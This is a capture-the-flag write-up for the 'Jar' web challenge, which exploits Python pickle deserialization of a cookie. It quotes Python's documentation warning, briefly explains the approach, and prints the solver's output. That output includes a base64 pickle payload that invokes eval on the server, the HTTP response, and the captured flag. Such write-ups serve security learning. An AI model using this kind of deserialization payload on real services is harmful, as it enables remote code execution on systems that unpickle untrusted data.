

# Jar

### Description



## Solution

Checking https://docs.python.org/3/library/pickle.html, we get a warning
```
It is possible to construct malicious pickle data which will execute arbitrary code during unpickling. Never unpickle data that could have come from an untrusted source, or that could have been tampered with.
```

After that I researched on remote code exectuion using pickle, and coded up the solution. In short, it sends an object such that unpickling it will cause it to retrieve the flag and put it into the list. The website would then display the flag.

I initially found out how to cause remote code execution but I did not know how to display the flag. It was my teammate undefined_func who did it, so shout outs to him.

Running solve.py
```
terminals database is inaccessible
gASVIgAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIwGW2ZsYWddlIWUUpQu
<form method="post" action="/add" style="text-align: center; width: 100%"><input type="text" name="item" placeholder="Item"><button>Add Item</button><div style="background-color: white; font-size: 3em; position: absolute; top: 74.30653705261622%; left: 44.16129903494589%;">actf{you_got_yourself_out_of_a_pickle}</div>
<Response [200]>
{'Content-Length': '375', 'Content-Type': 'text/html; charset=utf-8', 'Date': 'Wed, 07 Apr 2021 16:48:58 GMT', 'Server': 'Caddy, nginx/1.14.1'}
<RequestsCookieJar[]>
<RequestsCookieJar[<Cookie contents=gASVIgAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIwGW2ZsYWddlIWUUpQu for />]>

Process returned 0 (0x0)	execution time : 2.403 s
Press [ENTER] to continue...
```

## Flag

`actf{you_got_yourself_out_of_a_pickle}`
